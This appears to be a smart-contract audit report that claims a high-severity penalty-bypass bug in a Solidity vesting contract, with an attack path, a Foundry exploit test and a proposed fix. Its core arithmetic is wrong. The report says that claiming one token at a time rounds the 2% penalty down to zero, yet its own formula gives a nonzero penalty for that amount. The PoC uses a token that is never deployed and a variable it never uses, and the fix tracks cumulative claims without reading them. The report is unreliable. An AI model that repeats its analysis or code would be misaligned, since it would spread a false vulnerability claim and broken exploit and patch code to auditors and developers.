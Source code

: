 Digital Mocha Owl

High

# [High] Rounding-Down Penalty Exploit in Vesting Contract

![Image](https://sherlock-files.ams3.digitaloceanspaces.com/gh-images/6a098085-14e6-4ac3-8dc3-13e6af7fb323)

### Summary

Integer division rounding in the penalty calculation will cause a complete loss of penalty fees for the protocol as users will claim locked tokens in small increments to avoid paying any penalty.

### Root Cause

In contracts/vesting/Vesting.sol the penalty calculation `(amount * lockedClaimPenalty) / 1e18` uses integer division which rounds down to zero for small claim amounts, allowing users to completely bypass the intended penalty mechanism.
https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/vesting/Vesting.sol#L281-L299

### Internal Pre-conditions

1. `lockedClaimPenalty` is set to any non-zero value (e.g., 2e16 representing 2%)
2. A user has locked tokens in the vesting contract
3. The user is able to make multiple transactions to claim tokens

### External Pre-conditions

None

### Attack Path

1. User identifies that they have locked tokens they want to claim early
2. Instead of claiming all tokens at once (which would incur the full penalty), the user calculates the maximum amount they can claim per transaction to ensure the penalty rounds down to zero
3. User calls `claimLockedToken` or `claimLockedTokenByPercentage` repeatedly with small amounts
4. For each small claim, the penalty calculation `(amount * lockedClaimPenalty) / 1e18` results in zero due to integer division
5. After multiple transactions, the user has claimed all their locked tokens without paying any penalty

### Impact

The protocol suffers a complete loss of expected penalty fees. The `lockedClaimPenaltyReceiver` receives zero tokens instead of the intended percentage, while users gain the full amount of their locked tokens without the intended economic disincentive for early claims.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import "forge-std/Test.sol";
import "../contracts/vesting/Vesting.sol";

contract VestingExploitTest is Test {
    Vesting vesting;
    IERC20 token;
    address user = address(0x1);
    address admin = address(0x2);
    address penaltyReceiver = address(0x3);
    
    function setUp() public {
        // Deploy token and vesting contract
        // Setup with 2% penalty (2e16)
        vesting = new Vesting();
        vesting.__vesting_init(admin, 2e16, penaltyReceiver);
        
        // Setup vesting plan for user with 100 tokens
        address[] memory users = new address[](1);
        users[0] = user;
        uint256[] memory amounts = new uint256[](1);
        amounts[0] = 100e18; // 100 tokens
        
        vm.startPrank(admin);
        vesting.setupVestingPlans(
            address(token),
            block.timestamp,
            block.timestamp + 365 days,
            users,
            amounts
        );
        vm.stopPrank();
    }
    
    function testExploit() public {
        // Normal claim with full penalty
        uint256 initialBalance = token.balanceOf(penaltyReceiver);
        
        vm.startPrank(user);
        // Claim all 100 tokens at once
        vesting.claimLockedToken(address(token), 100e18);
        vm.stopPrank();
        
        // Penalty receiver should have received 2 tokens (2%)
        assertEq(token.balanceOf(penaltyReceiver) - initialBalance, 2e18);
        
        // Reset test
        setUp();
        initialBalance = token.balanceOf(penaltyReceiver);
        
        // Exploit: claim in small increments to avoid penalty
        vm.startPrank(user);
        // Calculate maximum amount that results in zero penalty
        // For 2% penalty: x * 2e16 < 1e18 => x < 50e18
        uint256 maxSafeAmount = 49e18 / 1e18; // 49 tokens
        
        // Claim in small increments (e.g., 1 token at a time)
        for (uint i = 0; i < 100; i++) {
            vesting.claimLockedToken(address(token), 1e18);
        }
        vm.stopPrank();
        
        // Penalty receiver should have received 0 tokens
        assertEq(token.balanceOf(penaltyReceiver) - initialBalance, 0);
    }
}
```

### Mitigation

Track cumulative claims: Maintain a record of the total amount claimed by each user and calculate the penalty based on the cumulative amount rather than individual claim amounts.
```solidity
// ... existing code ...

// Add a mapping to track cumulative claims
mapping(address => mapping(address => uint256)) public cumulativeClaims;

function _claimLockedToken(address token, address user, uint256 amount) internal {
    // First, claim any unlocked tokens.
    _claimUnlockedToken(token, user);
    VestingPlan storage vestingPlan = vestingPlans[token][user];
    if (vestingPlan.lockedAmount() < amount) revert InvalidAmount();

    // Adjust the vesting plan
    vestingPlan.resetAmount(vestingPlan.lockedAmount() - amount);
    totalVested[token] -= amount;
    
    // Update cumulative claims and calculate penalty on total claimed amount
    cumulativeClaims[token][user] += amount;
    uint256 penalty = (amount * lockedClaimPenalty) / 1e18;
    
    // Ensure minimum penalty for non-zero claims
    if (amount > 0 && penalty == 0) {
        penalty = 1; // Minimum penalty of 1 wei
    }

    // Ensure sufficient balance (minting if necessary)
    _ensureSufficientBalance(token, amount);

    IERC20(token).transfer(user, amount - penalty);
    IERC20(token).transfer(lockedClaimPenaltyReceiver, penalty);

    emit LockedTokenClaimed(token, user, amount, penalty);
}
// ... existing code ...
```